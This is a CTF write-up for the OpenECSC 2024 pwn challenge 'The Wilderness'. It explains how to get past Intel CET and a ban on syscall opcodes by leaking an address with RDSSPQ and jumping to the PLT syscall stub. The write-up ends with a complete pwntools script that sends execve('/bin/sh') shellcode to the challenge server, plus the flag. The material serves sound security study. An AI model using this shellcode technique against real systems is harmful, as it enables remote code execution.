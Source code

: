 ```yaml
---
title: 'OpenECSC 2024 - Round 2'
challenge: 'The Wilderness'
date: 2024-04-29T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the OpenECSC 2024 - Round 2 CTF challenge "The Wilderness"' 
cover: '/img/openECSC/logo.png'
tags: ['pwn']
draft: false
---
```


**tl;dr**

The challenge requires input of our shellcode's bytecode. There are several constraints that increase the difficulty:

- The environment relies on [Intel CET: Control Flow Enforcement Technology](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html).
- Forbidden opcodes include traps such as syscall, sysexit, and int80.
- **All** registers are cleared.
- Our shellcode cannot contain `\x00` bytes.
- The shellcode is executed in a memory area that is only readable and executable, thus polymorphic shellcode cannot be used.

## First step

Upon uncompressed, the archive provided by the challenge contains the following files:

```bash
$ tree --filelimit 5
.
├── Dockerfile
├── build
│   └── the_wilderness
├── docker-compose.yml
├── run.sh
└── sde-external-9.33.0-2024-01-07-lin
```

We can observe from ./run.sh that the binary is executed using the [Intel Software Development Emulator (Intel SDE)](https://www.intel.com/content/www/us/en/developer/articles/tool/software-development-emulator.html).

```
#!/bin/sh

echo "[+] starting challenge..."
/home/user/sde/sde64 -no-follow-child -cet -cet_output_file /dev/null -- /home/user/build/the_wilderness
echo "[+] challenge stopped"
```

It's worth noting that the flag `-cet` is in use, which indicates the implementation of control flow enforcement technology.

## Environment setup

I made two changes to the files to set up the debug environment:
- Added the flag `-debug` in the *run.sh* file
- Modified the *Dockerfile* to install gdb and [gef extension](https://github.com/hugsy/gef).

## Code review

Shifting our focus to the `get_code` function within the binary, we can observe the following:

- The memory is always mapped at the address `0xdead000`
- Initially, the memory is set as readable and writable with `PROT_READ | PROT_WRITE` (3).

{{< figure src="/img/openECSC/the_wilderness/mmap.png" position="left" caption="0xdead000 mmap" captionPosition="left">}}

- Before execution, the permissions of the mapped area `0xdead000` are changed to `PROT_EXEC | PROT_READ` (5) using *[mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html)*.

{{< figure src="/img/openECSC/the_wilderness/mprotect.png" position="left" caption="0xdead000 mprotect" captionPosition="left">}}

- Our input cannot contain the bytecode `\x00`.

{{< figure src="/img/openECSC/the_wilderness/holes.png" position="left" caption="holes check" captionPosition="left">}}

- The input must not include trap instructions such as *syscall*, *sysenter*, or *int80*.

{{< figure src="/img/openECSC/the_wilderness/traps_check.png" position="left" caption="traps check" captionPosition="left">}}

{{< figure src="/img/openECSC/the_wilderness/traps_blacklist.png" position="left" caption="traps blacklist" captionPosition="left">}}

In the `run_code` function, all registers are cleared, including the SIMD registers. Furthermore, before executing the shellcode, even the fs and gs base are zeroed, eliminating any possibility of leaking addresses.
## Divide et impera

### Problem 1: Intel Control Flow Enforcement Technology

Intel Control Flow Enforcement Technology (CET) is a mitigation measure aimed at thwarting techniques like Return-Oriented Programming (ROP) and Jump-Oriented Programming (JOP). Essentially, after a return or a jump, the next expected instruction is an `endbr64`. If this expectation is not met, the subsequent instruction will trigger a segmentation fault.

#### Solution

In this scenario, we have complete control over the instruction that will be executed. Essentially, we need to place `endbr64` at the beginning of our shellcode.

### Problem 2: Traps are forbidden

Traps instructions are prohibited, and the code that checks for this behavior appears to be robust. We are not allowed to use the *syscall*, *sysenter*, or *int80* instructions.

#### Solution

We can exploit the fact that a reference to `syscall` is present in the binary. When `arch_prctl` is called, it will invoke `syscall` from the libc. If we can obtain a leak of the address of the binary, we can then jump to the syscall entry in the PLT (Procedure Linkage Table).

### Problem 3: No leak?

The unsettling aspect of this challenge is that everything is zeroed out. All general-purpose registers and even special ([SIMD](https://en.wikipedia.org/wiki/Single_instruction,_multiple_data)) ones are cleared. Even the base of `fs` and `gs` is set to zero.

#### Solution

To overcome this problem, we need to find an instruction that will cause a leak in the registers. After some searching, I decided to skim through all the instructions of the [x86/x64 architecture](https://www.felixcloutier.com/x86/) architecture. Finally, I came across [RDSSPD/RDSSPQ](https://www.felixcloutier.com/x86/rdsspd:rdsspq). This instruction, when Intel CET shadow stack is enabled, will indeed cause a leak in the specified register.
## Exploit

Here is the full script:

```python
from pwn import *

context.arch = "amd64"

DEBUG = False

if DEBUG:
        r = remote("127.0.0.1", 1337)
        r.recvuntil("remote ")
        port = r.recvline(keepends=False).decode()
else:
        r = remote("thewilderness.challs.open.ecsc2024.it", 38012)

shellcode = []

# bypass CET
shellcode += ["endbr64"]

# Get a PIE leak

shellcode += ["rdsspq rsp"] # rsp now contains a shadow stack pointer leak
shellcode += ["mov rbx, [rsp]"] # rbx now contains a PIE leak

# prepare arguments to syscall from libc

shellcode += ["xor rdi, rdi"]
shellcode += ["xor rdi, 59"] # execve syscall
shellcode += ["xor rsi, rsi"]
shellcode += ["xor rsi, 0xdead02a"] # address of /bin/sh

# Call plt[syscall]

shellcode += ["sub bx, 0x1563"] # subtract main+63 offset
shellcode += ["add bx, 0x126f"] # offset of plt[syscall]
shellcode += ["call rbx"] # call plt[syscall]

shellcode += ['.ascii "/bin/sh"']

shellcode = asm("\n".join(shellcode))

r.sendlineafter(b"Wilderness?", str(len(shellcode)).encode())
r.sendlineafter(b"Wilderness?", shellcode)

log.info("Got shell ?!")

r.interactive()
```

> openECSC{h3r3_1n_th3_wild3rness_w3_l1ke_h1d1ng_1n_the_sh4dow_64d70520}